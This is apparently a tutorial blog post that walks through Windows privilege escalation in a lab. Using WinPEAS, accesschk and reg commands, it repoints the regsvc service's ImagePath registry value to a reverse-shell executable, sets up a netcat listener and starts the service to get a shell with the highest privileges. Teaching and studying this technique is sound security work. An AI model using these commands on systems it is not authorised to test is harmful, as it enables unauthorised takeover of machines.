








Introduction
In this article, we will explain how to escalate privileges by exploiting Weak Registry Services on Windows. Every service on a Windows system has a corresponding path in the registry. However, some of these registry paths for services have weak permissions, meaning that a low-privilege user can modify them. This allows us to change the executable path of the service to point to our malicious file (reverse shell) instead of the legitimate service binary.
An important point to always remember -- and this has been mentioned in previous articles about exploiting services -- is that you must have permission to start and stop the vulnerable service. Without the ability to restart the service, you will not be able to exploit it.
If the concept is not entirely clear yet, it will become clear as we walk through the practical demonstration.
Walkthrough
Step 1: Confirm Low-Privilege Access
First, we confirm that we are logged in as a limited user. As usual, we are operating as the user user, which has restricted privileges.

Step 2: Run WinPEAS for Enumeration
Next, we use the WinPEAS tool to enumerate the system. We covered how to transfer WinPEAS to a compromised system in previous articles.
Run WinPEAS and examine the results together.
We can see that WinPEAS reports that the service called regsvc can be modified by us. This also means that we have read and write permissions on this service in the registry. The registry path for this service is:
HKLM\system\currentcontrolset\services\regsvc

Step 3: Verify Permissions with accesschk
We confirm this finding using the accesschk tool to verify that we indeed have read and write permissions on this service in the registry.
Important Note: Before beginning the exploitation of any service, always check whether you have permission to start and stop the vulnerable service. If you do not have start/stop permissions, you will not be able to exploit it.
We also verify whether we have start and stop permissions for the vulnerable service regsvc using accesschk with the following command:
accesschk.exe /accepteula -ucqv regsvc
We can see that we have start and stop permissions for the service. Now we can proceed to the exploitation phase.

Step 4: Query the Service Registry Keys
Let us examine the keys and values associated with this service in the registry using the following command:
reg query HKLM\system\currentcontrolset\services\regsvc
We can see that the value of the key named ImagePath points to the executable file for the service. We are going to replace this path with the path to our reverse shell.

Step 5: Modify the ImagePath Value
We modify the ImagePath registry value to point to our reverse shell executable using the following command:
reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
For those who want to learn more about the options used in this command, you can refer to the Microsoft documentation for the reg add command.


Step 6: Check the Service State
Before setting up our listener, let us check the current state of the service -- whether it is stopped or running -- using the following command:
sc query regsvc
Note: We can see that the state of the service is STOPPED, so we only need to start it. If it were already running, we would need to stop it first and then start it again.

Step 7: Set Up a Listener
Before starting the service, we set up a netcat listener on the port specified in our reverse shell payload:
nc -lvp <port>

Step 8: Start the Service
Now we start the service using the following command:
net start regsvc
When the service starts, it will execute our reverse shell instead of the legitimate binary because we changed the ImagePath value in the registry.
Result
After starting the service, we receive a reverse shell connection with the highest privileges on the system. We have successfully escalated our privileges through Weak Registry Services.
